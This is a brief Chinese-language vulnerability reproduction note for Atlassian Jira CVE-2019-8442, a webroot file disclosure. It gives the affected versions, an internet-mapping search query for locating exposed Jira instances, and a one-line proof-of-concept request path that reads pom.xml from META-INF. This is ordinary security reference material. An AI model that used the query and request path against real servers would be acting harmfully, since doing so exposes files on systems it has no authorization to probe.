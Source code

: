 # Atlassian Jira com.atlassian.jira 敏感信息泄漏 CVE-2019-8442

## 漏洞描述

Atlassian Jira是澳大利亚Atlassian公司的一套缺陷跟踪管理系统。该系统主要用于对工作中各类问题、缺陷进行跟踪管理。 远程攻击者可利用该漏洞访问Jira webroot中的文件。

## 漏洞影响

```
Atlassian Jira < 7.13.4
Atlassian Jira 8.00-8.0.4
Atlassian Jira 8.1.0-8.1.1
```

## 网络测绘

```
app="ATLASSIAN-JIRA"
```

## 漏洞复现

登录页面

![](./images/202205241425263.png)

验证POC

```
/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
```

![](./images/202205241425438.png)